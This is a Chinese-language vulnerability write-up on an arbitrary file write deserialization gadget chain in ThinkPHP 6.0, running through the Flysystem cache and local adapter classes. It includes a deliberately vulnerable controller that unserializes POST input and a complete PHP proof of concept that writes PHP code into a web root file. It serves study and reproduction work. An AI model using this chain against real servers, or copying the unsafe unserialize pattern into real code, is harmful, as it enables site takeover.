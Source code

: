 Thinkphp 6.0 任意文件写入pop链
==============================

一、漏洞简介
------------

需要知晓绝对路径

二、漏洞影响
------------

Thinkphp 6.0

三、复现过程
------------

### 环境搭建

ThinkPHP6.0.2

PHP7.2

    <?php
    namespace app\controller;
    use app\BaseController;

    class Index extends BaseController

        public function test(){
            echo base64_decode($_POST['payload']);
            $payload = unserialize(base64_decode($_POST['payload']));
        }
    }

### 漏洞分析

POP链：

    League\Flysystem\Cached\Storage\AbstractCache --> destruct()
    League\Flysystem\Cached\Storage\Adapter --> save()
    League\Flysystem\Adapter\Local --> write()
    vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php

![](resource/Thinkphp6.0任意文件写入pop链/media/rId26.jpg)

因AbstractCache类为抽象类，需找到其实现子类，且要有save()方法

成功找到：`vendor/league/flysystem-cached-adapter/src/Storage/Adapter.php`

![](resource/Thinkphp6.0任意文件写入pop链/media/rId27.jpg)

\$contents决定文件写入内容，显然可向\$this-\>complete或\$this-\>expire写入具体内容即可

![](resource/Thinkphp6.0任意文件写入pop链/media/rId28.jpg)

接下来需找到具有write()方法的类，`vendor/league/flysystem/src/Adapter/Local.php`中Local类符合条件

![](resource/Thinkphp6.0任意文件写入pop链/media/rId29.jpg)

但`ensureDirectory()`对利用造成了影响，将对目录进行检测，因而造成必须使用绝对路径

![](resource/Thinkphp6.0任意文件写入pop链/media/rId30.jpg)

### 漏洞复现

根据分析写出poc

> 该利用链较为鸡肋，要求必须知晓写入文件的绝对路径

    <?php
    namespace League\Flysystem\Cached\Storage;#AbstractCache Adapter
    use League\Flysystem\Adapter\Local;
    abstract class AbstractCache{
        protected $autosave = true;
        protected $cache = [];
        protected $complete = [];
        function __construct(){
            $this->autosave = false;
            $this->cache = ['test'];
            $this->complete = ["axin"=>"<?php phpinfo();?>"];
        }
    }

    class Adapter extends AbstractCache{
        protected $adapter;
        protected $file;
        protected $expire = null;

        function __construct(){
            parent::__construct();
            $this->adapter = new Local();
            $this->file = "var/www/html/index.php";
            #$this->file = "://WampServer/www/tp/tp6.0.1/public/index.php"; #winsows下目录
            $this->expire = 123;
        }
    }

    namespace League\Flysystem\Adapter;
    abstract class AbstractAdapter{
        protected $pathPrefix;
        function __construct(){
            $this->pathPrefix = "/";
            #$this->pathPrefix = "D";  #windows下目录
        }
    }
    class Local extends AbstractAdapter{

    }
    use League\Flysystem\Cached\Storage\Adapter;
    echo base64_encode(serialize(new Adapter()));

![](resource/Thinkphp6.0任意文件写入pop链/media/rId32.jpg)

效果演示：自己构造一个反序列化输入点，发送请求(页面的输出是我自己方便调试打印的)

![](resource/Thinkphp6.0任意文件写入pop链/media/rId33.png)

文件成功写入：

![](resource/Thinkphp6.0任意文件写入pop链/media/rId34.png)

参考链接
--------

> http://pines404.online/2020/01/20/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/ThinkPHP/ThinkPHP6.0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE(%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5)%E5%88%86%E6%9E%90/
>
> https://www.anquanke.com/post/id/194269
